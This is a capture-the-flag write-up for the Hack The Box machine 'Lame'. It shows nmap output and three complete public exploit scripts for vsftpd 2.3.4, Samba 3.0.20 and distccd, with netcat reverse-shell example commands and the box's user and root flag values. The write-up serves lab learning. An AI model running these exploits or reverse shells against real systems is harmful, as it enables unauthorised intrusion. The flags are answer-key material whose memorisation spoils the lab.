

# Lame

## Overview

This was a fairly easy box. There were many ways to root the box. I tried two ways.


**Name -** Lame

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### **Port Scan**

A full nmap TCP scan gives the following output



Nmap Service Scan

```bash
╭╴root @ …/c/Users/SiliconBits took 2m4s
╰─ nmap 10.129.74.68 -p21,22,139,445,3632 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-30 21:52 +06
Nmap scan report for 10.129.74.68
Host is up (0.37s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.16.12
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m35s, deviation: 2h49m44s, median: 33s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-05-30T11:53:27-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.28 seconds
```

I found exploit for ftp, samba and distccd. It was possible to get a shell with using any one of the exploit. I will try all three exploit.

### FTP Enumeration

anonymous user was enabled but nothing was there.


The version vsftpd 2.3.4 is vulnerable to [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523). I found the following exploit in exploitDB.

```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3

from telnetlib import Telnet
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)
parser=argparse.ArgumentParser()
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()
host = args.host
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

But Somehow this one didn’t work in the system.

### SMB Enumeration

The SMB version is vulnerable to **CVE-2007-2447**. I found the following exploit from [https://raw.githubusercontent.com/Ziemni/CVE-2007-2447-in-Python/master/smbExploit.py](https://raw.githubusercontent.com/Ziemni/CVE-2007-2447-in-Python/master/smbExploit.py)

```python
#
#        Samba 3.0.20 < 3.0.25rc3
#   'Username' map script' RCE Exploit
#               by Ziemni
#

#!/usr/bin/python3
import sys
try:
    from smb.SMBConnection import SMBConnection
except:
    print("pysmb is not installed: python3 -m pip install pysmb")
    quit()

if not (2 < len(sys.argv) < 5):
    print("Usage:")
    print("    python3 smbExploit.py <IP> <PORT> <PAYLOAD>")
    print("       IP - Ip of the remote machine.")
    print("       PORT - (Optional) Port that smb is running on.")
    print("       PAYLOAD - Payload to be executed on the remote machine e.g. reverse shell.")
    print("")
    print("Example: python3 smbExploit.py 192.168.1.2 139 'nc -e /bin/sh 192.168.1.1 4444'")
    quit()

if len(sys.argv) == 3:
    ip = sys.argv[1]
    port = 139
    payload = sys.argv[2]
else:
    ip = sys.argv[1]
    port = sys.argv[2]
    payload = sys.argv[3]

user = "`" + payload + "`"
conn = SMBConnection(user, "na", "na", "na", use_ntlm_v2=False)

try:
    print("[*] Sending the payload")
    conn.connect(ip, int(port))
    print("[*] Payload was send successfully")
    quit()
except Exception as e:
    print("[*] Something went wrong")
    print("ERROR:")
    print(e)
    quit()
```

And I got a shell as root.


And after that I collected both the flags.


### Additional Way

I also tried to exploit the distccd v1. It is vulnerable to another CVE (CVE-2004-2687). Found the following exploit from hacktricks. [https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

```python
# -*- coding: utf-8 -*-

'''
	distccd v1 RCE (CVE-2004-2687)

	This exploit is ported from a public Metasploit exploit code :
		https://www.exploit-db.com/exploits/9915

	The goal of that script is to avoid using Metasploit and to do it manually. (OSCP style)

	I'm aware a Nmap script exists but for some reason I could not get it to work.

	Lame Box (HTB):
		local>nc -lvp 1403

		local>./disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"

		Enjoy your shell

	Jean-Pierre LESUEUR
	@DarkCoderSc
'''

import socket
import string
import random
import argparse

'''
	Generate a random alpha num string (Evade some signature base detection?)
'''
def rand_text_alphanumeric(len):
	str = ""
	for i in range(len):
		str += random.choice(string.ascii_letters + string.digits)

	return str

'''
	Read STDERR / STDOUT returned by remote service.
'''
def read_std(s):
	s.recv(4) # Ignore

	len = int(s.recv(8), 16) # Get output length

	if len != 0:
		return s.recv(len)

'''
	Trigger Exploit
'''
def exploit(command, host, port):
	args = ["sh", "-c", command, "#", "-c", "main.c", "-o", "main.o"]

	payload = "DIST00000001" + "ARGC%.8x" % len(args)

	for arg in args:
		payload += "ARGV%.8x%s" % (len(arg), arg)

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	socket.setdefaulttimeout(5)
	s.settimeout(5)

	if s.connect_ex((host, port)) == 0:
		print("[\033[32mOK\033[39m] Connected to remote service")
		try:
			s.send(payload)

			dtag = "DOTI0000000A" + rand_text_alphanumeric(10)

			s.send(dtag)

			s.recv(24)

			print("\n--- BEGIN BUFFER ---\n")
			buff = read_std(s) # STDERR

			if buff:
				print(buff)

			buff = read_std(s) # STDOUT
			if buff:
				print(buff)

			print("\n--- END BUFFER ---\n")

			print("[\033[32mOK\033[39m] Done.")
		except socket.timeout:
			print("[\033[31mKO\033[39m] Socket Timeout")
		except socket.error:
			print("[\033[31mKO\033[39m] Socket Error")
		except Exception:
			print("[\033[31mKO\033[39m] Exception Raised")
		finally:
			s.close()
	else:
		print("[\033[31mKO\033[39m] Failed to connect to %s on port %d" % (host, port))

parser = argparse.ArgumentParser(description='DistCC Daemon - Command Execution (Metasploit)')

parser.add_argument('-t', action="store", dest="host", required=True, help="Target IP/HOST")
parser.add_argument('-p', action="store", type=int, dest="port", default=3632, help="DistCCd listening port")
parser.add_argument('-c', action="store", dest="command", default="id", help="Command to run on target system")

try:
	argv = parser.parse_args()

	exploit(argv.command, argv.host, argv.port)
except IOError:
	parse.error
```

This also works with simple `id` command


Then I tried to get a reverse shell


We get into the system as daemon user. We can easily escalate to root from here. The **/usr/bin/nmap** had setuid enabled.


## Flags

**user.txt -** 945c38e4f9e822868067b116a3f6a872

**root.txt -** 01d824b9e98551ca1ab38601d37162b1
